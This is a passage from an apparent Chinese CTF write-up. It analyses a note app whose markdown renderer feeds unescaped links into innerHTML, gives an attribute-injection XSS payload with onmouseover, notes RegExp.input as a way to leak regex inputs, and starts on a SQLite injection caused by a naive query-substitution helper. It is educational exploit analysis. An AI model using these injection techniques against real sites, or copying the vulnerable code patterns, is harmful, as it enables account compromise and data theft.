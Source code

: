 ```js
    }
    let text = note;
    if (mode === 'markdown') {
      text = text.replace(/\[([^\]]+)\]\(([^\)]+)\)/g, (match, p1, p2) => {	// 正则
        return `<a href="${p2}">${p1}</a>`;	// xss处
      });
      text = text.replace(/#\s*([^\n]+)/g, (match, p1) => {
        return `<h1>${p1}</h1>`;
      });
      text = text.replace(/\*\*([^\n]+)\*\*/g, (match, p1) => {
        return `<strong>${p1}</strong>`;
      });
      text = text.replace(/\*([^\n]+)\*/g, (match, p1) => {
        return `<em>${p1}</em>`;
      });
    }
    document.querySelector('.note').innerHTML = text;	// 插入页面中
    document.querySelector('.views').innerText = views;
  })();
})();
```

比较容易注意到这个xss点，它可以渲染超链接，但是没过滤双引号，导致我们可以这样

```
// md
(link text)[http://example.com" class="foo]
// innerHTML
<a href="http://example.com" class="foo">link text</a>
```

可以构造出这样的payload

```
// md
(link text)[http://example.com" onmouseover="alert`1`]
// innerHTML
<a href="http://example.com" onmouseover="alert`1`>link text</a>
```

不过admin无鼠标操作，这里要结合js正则匹配的特性，`RegExp.input`可以拿到上一次传入正则匹配函数中的输入值

```js
/a/.test('secret password')
console.log(RegExp.input) // secret password
```

不过仅有这一个xss点还不行，含有这样payload的note必须插入后得到一个admin能访问的url，这里就需要后端的sqlite注入了

```js
const db = {
  prepare: (query, params) => {
    if (params)
      for (const [key, value] of Object.entries(params)) {
        const clean = value.replace(/['$]/g, '');
        query = query.replaceAll(`:${key}`, `'${clean}'`);
      }
    return query;
  },

[...]
  run: (query, params) => {
    const prepared = db.prepare(query, params);
    console.log( prepared );
    return database.prepare(prepared).run();
  },
};
[...]
```